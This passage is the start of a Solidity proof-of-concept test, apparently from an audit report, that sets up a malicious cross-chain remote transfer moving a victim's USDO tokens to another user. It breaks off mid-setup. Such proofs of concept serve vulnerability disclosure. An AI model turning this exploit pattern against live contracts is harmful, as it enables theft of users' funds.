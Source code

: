 **See the Proof of Concept:**

```solidity
    function test_remote_malicious_transfer() public {

        // vars
        LZSendParam memory remoteLzSendParam_;
        MessagingFee memory remoteMsgFee_; // Will be used as value for the composed msg

        uint256 maliciousTokenAmount_ = 1.1 ether;
        LZSendParam memory remoteLzSendParam_malicious;
        MessagingFee memory remoteMsgFee_malicious; 
        bytes memory composeMsg_malicious;

        /**
         * Setup
         */

        {
            deal(address(aUsdo), address(userB), maliciousTokenAmount_); // Victim needs tokens on chain A

            // Setup malicious callback
            PrepareLzCallReturn memory prepareLzCallReturn1_ = usdoHelper.prepareLzCall( // B->A data
                IUsdo(address(aUsdo)),
                PrepareLzCallData({
                    dstEid: bEid,
                    recipient: OFTMsgCodec.addressToBytes32(address(userA)),
                    amountToSendLD: maliciousTokenAmount_,
                    minAmountToCreditLD: maliciousTokenAmount_,
                    msgType: SEND,
                    composeMsgData: ComposeMsgData({
                        index: 0,
                        gas: 0,
                        value: 0,
                        data: bytes(""),
                        prevData: bytes(""),
                        prevOptionsData: bytes("")
                    }),
                    lzReceiveGas: 1_000_000,
                    lzReceiveValue: 0
                })
            );
            remoteLzSendParam_ = prepareLzCallReturn1_.lzSendParam;
            remoteMsgFee_ = prepareLzCallReturn1_.msgFee;

            remoteLzSendParam_.fee.nativeFee += 806;
            remoteMsgFee_.nativeFee += 806;
            
            // Setup malicious remote transfer
            RemoteTransferMsg memory remoteTransferData =
                RemoteTransferMsg({composeMsg: bytes(""), owner: address(userB), lzSendParam: remoteLzSendParam_});
            bytes memory remoteTransferMsg_ = usdoHelper.buildRemoteTransferMsg(remoteTransferData);

            PrepareLzCallReturn memory prepareLzCallReturn2_ = usdoHelper.prepareLzCall(
                IUsdo(address(bUsdo)),
                PrepareLzCallData({
                    dstEid: aEid,
                    recipient: OFTMsgCodec.addressToBytes32(userA),
                    amountToSendLD: 0,
                    minAmountToCreditLD: 0,
```